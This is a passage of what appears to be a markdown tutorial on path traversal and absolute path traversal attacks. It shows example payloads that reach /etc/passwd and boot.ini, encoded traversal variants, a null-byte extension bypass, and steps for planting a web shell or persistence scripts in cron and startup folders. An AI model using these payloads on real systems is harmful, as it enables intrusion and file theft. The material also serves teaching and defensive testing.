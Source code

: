 1. Write a script inside the web root, then access it through the browser:

   ```
   ../../../../var/www/html/shell.php
   ```
2. Drop a script in:

   * User startup folders (for persistence)
   * `.ftpd` config to auto-execute commands
   * Cron or scheduled task files

---

## **Examples of Real Path Traversal Attacks**

**Against the web server:**

```
https://testsite/../../../../../etc/passwd  
https://testsite/..%255c..%255cboot.ini  
https://testsite/..%u2216..%u2216some/file.txt
```

**Against a web app:**

```
Original: https://testsite/foo.cgi?home=index.htm  
Attack:   https://testsite/foo.cgi?home=foo.cgi
```

**Using null byte and traversal:**

```
https://testsite/scripts/foo.cgi?page=../scripts/foo.cgi%00txt
```

In this case, the app reveals the source of `foo.cgi` by bypassing the extension check.

---

## **Absolute Path Traversal**
---

### 🔹 What is Absolute Path Traversal?

This vulnerability occurs when the system or web application allows the user to specify the **full path** of a file on the server (e.g., `/etc/passwd` or `C:\Windows\win.ini`) instead of restricting access to a specific directory.

If the application takes the path input from the user and accesses the file directly without proper validation or checks, an attacker could exploit that to read sensitive files on the server.

---

### 🔹 Examples of Potentially Vulnerable URLs

```plaintext
https://testsite/get.php?f=list  
https://testsite/get.cgi?f=5  
https://testsite/get.asp?f=test  
```
